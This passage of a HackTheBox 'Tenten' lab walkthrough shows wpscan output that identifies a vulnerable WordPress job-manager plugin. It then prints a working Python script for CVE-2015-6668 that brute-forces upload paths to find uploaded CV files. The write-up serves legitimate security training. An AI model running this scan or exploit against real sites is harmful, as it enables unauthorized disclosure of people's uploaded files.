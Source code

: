 It seems like there was nothing much found, let’s use `wpscan` instead since it’s a Wordpress website.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# wpscan --url http://10.10.10.10                   
...

[i] Plugin(s) Identified:

[+] job-manager
 | Location: http://10.10.10.10/wp-content/plugins/job-manager/
 | Latest Version: 0.7.25 (up to date)
 | Last Updated: 2015-08-25T22:44:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 7.2.5 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.10/wp-content/plugins/job-manager/readme.txt

...
```

# Exploit

From the `wpscan` result, we can see that the website is using a plugin called `job-manager`. This plugin is vulnerable to CVE-2015-6668. We can exploit this using this [code](https://gist.github.com/DoMINAToR98/4ed677db5832e4b4db41c9fa48e7bdef).

```python
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# cat exploit.py 
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2019):  
    for i in range(1,13):
        for extension in {'jpeg','png','jpg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```
